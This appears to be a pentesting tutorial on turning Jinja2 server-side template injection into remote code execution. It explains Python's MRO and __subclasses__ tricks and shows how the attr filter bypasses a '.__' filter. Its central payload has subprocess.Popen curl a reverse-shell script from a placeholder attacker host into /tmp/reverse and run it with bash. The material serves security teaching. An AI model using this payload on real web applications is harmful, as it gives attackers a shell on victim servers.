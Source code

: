 ```yaml
---
title: Pwning Jinja 2
tags:
  - advanced
  - pentesting
  - jinja
  - server
  - side
  - template
  - injection
  - python
  - web-app
---
```


## RCE w/ Jinja templates

In our previous article on
[[server-side-template-injection#Leaking sensitive information from Jinja|server-side template injection (SSTI) attacks against Jinja]],
we only discussed leaking sensitive information using some Python builtins. That doesn't do SSTI
against Jinja must justice because we can _definitely_ gain remote code execution (RCE) with a
little bit of elbow grease.

What have to realize with Jinja is that we have access to _all_ of the Python packages, classes,
types, methods, etc. imported by the web application and currently available in the Python runtime
at time of template injection. This means we have access to things like `subprocess.Popen`, `os`,
`sys` etc.

Using the following dark magic, we can expose all classes available to us in the Python runtime
through Jinja template injection:

```python
{{ dict.mro()[-1].__subclasses__() }}
```

What do these incantations mean? `mro` stands for **Method Resolution Order (MRO)** and it's a
method inherited by every Python class that exposes the class order an object searches to find the
implementation of a method in any of its parent classes. In the snippet above, we use the
`<class 'object'>` class, always the last class in the MRO, to obtain access to all the subclasses
of the `<class 'object'>` class.

The `<class 'object'>` class is the parent of _all_ classes implemented in Python, giving us access
to all global class definitions in the current runtime. Finally, we call the special
`__subclasses__` method that gives us a reference to all the subclasses of the `<class 'object'>`
class in the current Python runtime, giving us the ability to instantiate arbitrary objects for any
class in the current runtime. More on these builtin classes can be found below:

- [MRO](https://docs.python.org/3/reference/datamodel.html#type.__mro__)
- [\_\_subclasses\_\_](https://docs.python.org/3/reference/datamodel.html#type.__subclasses__)

The following snippet is a Jinja template that uses `subprocess.Popen` to download a reverse shell
`bash` script from the attacker host to the victim host, saving it to `/tmp/reverse` and then
executing `/tmp/reverse` in `bash` to initiate a reverse shell callback to the attacker host:

```python
{% set string = "" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[-1]|attr(subclasses)() %}
{{ subclasses_r }}
{% if subclasses_r[570](["curl", "http://{ATTACKER_HOST}:{ATTACKER_PORT}/reverse", "-o", "/tmp/reverse"]) %}
	{{ subclasses_r[570](["bash", "/tmp/reverse"]) }}
{% endif %}
```

Be wary of the index reference `subclasses_r[570]` - this won't always be the same for all Python
web applications vulnerable to Jinja SSTI. Like I mentioned earlier, every time a Python web
application starts, the `__subclasses__` order _will_ change. Thus, we have to expose the entire
list of `__subclasses__` first, find the index of the `subprocess.Popen` subclass in the
`__subclasses__` list, and then use that for our follow-up RCE payload.

### Bypassing Jinja template filters

The above snippet provides an example of bypassing Jinja template filters. In our case, we were
avoiding the following bad characters:

- `.__` The Python web application would reject templates with any characters following that exact
  pattern. In order to access the `__mro__` and `__subclasses__` attributes of our `string` and
  `<class 'object'>` classes, we used the Jinja `attr` function to access class attributes and
  methods. We also used the Jinja `{%%}` directives to store the outcomes of our attribute and
  method calls.

We also use `{% if %}` and `{% endif %}` to spawn our download and execute `subprocess.Popen` calls
consecutively instead of in parallel. More or bypassing Jinja template filters, or just really good
example payloads, can be found on HackTricks:

- [Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects)
